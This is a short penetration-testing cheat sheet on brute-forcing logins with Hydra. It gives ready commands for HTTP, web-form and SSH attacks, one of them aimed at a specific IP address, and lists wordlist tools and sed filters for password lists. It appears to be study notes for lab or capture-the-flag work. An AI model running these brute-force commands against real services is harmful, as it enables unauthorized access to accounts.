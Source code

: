 # Hydra
---
Typical tools besides hydra
-   `Ncrack`
-   `wfuzz`
-   `medusa`
-   `patator`


## Hydra
---
### Basic
Basic syntax for pre-built credential combinations:
```sh
hydra -C /path/to/list <ip> -s <port> http-get / 
```

Basic syntax for separate username & password combinations
```sh
hydra -L /path/to/unames -P /path/to/passwds <ip> -s <port> <method> / 
```

additional flags:

|flag|effect|
|-|-|
|-f|exit after valid combination found|
|-u|try every user with a password and then move on instead of the other way around|

Very simple  default credentials are in `SecList/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` .


### Forms
---
For brute-forcing forms there exists a custom syntax for sending the credentials in the right format, which looks like follows:
```shell
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]"
```

Where FAIL/SUCCESS string is a string in the html form hydra is looking for, to determine if the credentials where valid. It can be set like this for FAIL:
```bash
[...]:F=<form name='login'"
```

The syntax for the post data can easily be read in the browser dev tools -> right click -> copy POST data.


### Service
---
can be attacked by specifying `service://SERVER_IP:PORT` at the end. i.e.
```shell-session
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
add `-t 4` to limit the parallel processes to 4 (max for ssh) otherwise attempts may be dumped.

## Custom wordlists
---

| tool | pro/use case |
|-|-|
|`cupp`|easy to use -> create wordlist|
|[rsmangler](https://github.com/digininja/RSMangler)|fast permutation & combination of list|
|[The Mentalist](https://github.com/sc0tfree/mentalist.git)|fast permutation & combination of list|
|[Username Anarchy](https://github.com/urbanadventurer/username-anarchy)|create username list|


remove some passwords from list
```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```



